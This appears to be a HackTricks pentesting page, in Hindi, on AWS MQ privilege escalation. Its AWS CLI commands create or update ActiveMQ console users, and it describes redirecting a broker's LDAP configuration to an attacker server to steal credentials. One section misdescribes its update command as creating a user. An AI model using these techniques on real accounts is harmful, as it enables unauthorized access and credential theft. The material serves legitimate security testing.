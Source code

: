 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

इन permissions के साथ आप **ActimeMQ broker में एक नया user बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** ActiveMQ के माध्यम से नेविगेट करते हुए संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **ActimeMQ broker में नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** ActiveMQ के माध्यम से नेविगेट करते हुए संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि कोई broker ActiveMQ के साथ authorization के लिए **LDAP** का उपयोग कर रहा है, तो LDAP सर्वर की **configuration** को **change** करके उसे attacker द्वारा नियंत्रित किसी सर्वर की ओर निर्देशित किया जा सकता है। इस तरह attacker सभी उन **credentials** को **steal** कर सकेगा जो LDAP के माध्यम से भेजे जा रहे हैं।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी तरह ActiveMQ द्वारा उपयोग किए गए मूल credentials पता कर लें, तो आप एक MitM कर सकते हैं, creds चुरा सकते हैं, उन्हें original server पर उपयोग कर सकते हैं, और response भेज सकते हैं (शायद बस चोरी किए गए credentials का पुन: उपयोग करके आप यह कर सकते हैं)।

**संभावित प्रभाव:** Steal ActiveMQ credentials

{{#include ../../../../banners/hacktricks-training.md}}
